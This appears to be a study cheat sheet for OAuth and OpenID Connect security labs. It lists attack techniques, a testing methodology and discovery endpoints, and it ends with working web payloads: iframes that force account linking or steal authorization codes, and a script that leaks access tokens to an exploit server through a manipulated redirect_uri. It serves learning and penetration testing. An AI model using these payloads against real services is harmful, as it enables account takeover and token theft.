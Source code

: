 # OAuth CHEATSHEET + IMPORTANT LABS
#### Keywords key
```
- SAML based SSO (single sign-on)
- OpenID Connect
- OAuth Grant Types:
	> authorization code
	> implicit (token via browser)
```
#### Most important labs
[Forced-OAuth-profile-linking-(no-state-param+CSRF)](Forced-OAuth-profile-linking-(no-state-param+CSRF).md)

[OAuth-account-hijacking-via-redirect_uri](OAuth-account-hijacking-via-redirect_uri.md)

[SSRF-via-OpenID-dynamic-client-registration](SSRF-via-OpenID-dynamic-client-registration.md)

[Stealing-OAuth-access-tokens-via-an-open-redirect-(implicit)](Stealing-OAuth-access-tokens-via-an-open-redirect-(implicit).md)

#### Methodology
```bash
- Search for a specific provider and look for endpoints in the documentation
- response_type=token? -> implicit grant
- No state param? -> CSRF
- OpenID? -> try register + SSRF
- redirect_url? 
    > try arbitrary redirect
    > try path traversal
```
#### Cheat Sheet
```bash
# OPENID CONNECT
/.well-known/openid-configuration 
/.well-known/jwks.json
/reg -> redirect_uris, logo_uri  -> registrar usuario + obtener client_id +  SSRF
/client/<client_id/logo 
```
#### Payloads examples
```js
<iframe src="<IP>/oauth-linking?code=STOLEN-CODE"></iframe>
//----------------------//
<iframe src="https://<OAUTH-IP>/auth?client_id=<YOUR-CLIENT-ID>f&redirect_uri=<EXPLOIT-SV>&response_type=code&scope=openid%20profile%20email"hidden="hidden"></iframe>
//----------------------//
<script>
  if (!document.location.hash) {
    window.location = 'https://<OAUTH-IP>/auth?client_id=g4c0gltgknmy2ycmupioa&redirect_uri=<IP-LAB>/oauth-callback/../post/next?path=https://exploit-0a4c006b039157ca80ddf7830129001d.exploit-server.net&response_type=token&nonce=1727033259&scope=openid%20profile%20email';
  } else {
    window.location = '/?' + document.location.hash.substr(1);
  }
</script>
```


